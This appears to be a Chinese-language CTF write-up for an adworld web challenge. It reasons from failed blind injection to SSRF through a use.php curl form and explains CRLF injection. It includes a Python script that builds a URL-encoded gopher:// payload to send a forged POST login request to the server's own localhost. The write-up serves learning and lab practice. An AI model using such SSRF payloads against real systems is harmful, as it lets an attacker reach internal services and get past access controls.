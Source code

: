 

一直构造盲注都没有任何反应，adworld的题3级不可能是简单注入，而且下面提示`不是内部用户`，考虑可能是要往ssrf方向

尤其是看到还有个use.php函数，先wget下来

首先先查看use.php

```php
<!DOCTYPE html>
<html>
<body>

<form action="">
url you want to curl:<br>
<input type="text" name="url" value="url">
<br>
<input type="submit" value="Submit">
</form>

</body>
</html>   
```

到了这里的提示，果然是ssrf的构造

现有的思路就是对已有的协议如file，gopher等的利用

但是发现file是被过滤，并且目录并不是以往那么好找到

这里是利用了一个比较古老的漏洞

### CRLF注入

RLF 注入（也称为 HTTP 换行注入）是一种 Web 应用程序中的安全漏洞，它允许攻击者在 HTTP 响应中插入任意的换行符和回车符（CRLF），从而可能导致恶意行为。

简单来说，当我们传输`rn`到服务器时，服务器可能被欺骗，把`rn`当成换行回车处理，从而给`rn`后面的内容当成新的 header 头或者 body 内容返回。

```
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

payload =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)

tmp = urllib.parse.quote(payload) #对payload中的特殊字符进行编码
new = tmp.replace('%0A','%0D%0A') #CRLF(换行)漏洞
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)# 对新增的部分继续编码
print(result)
```


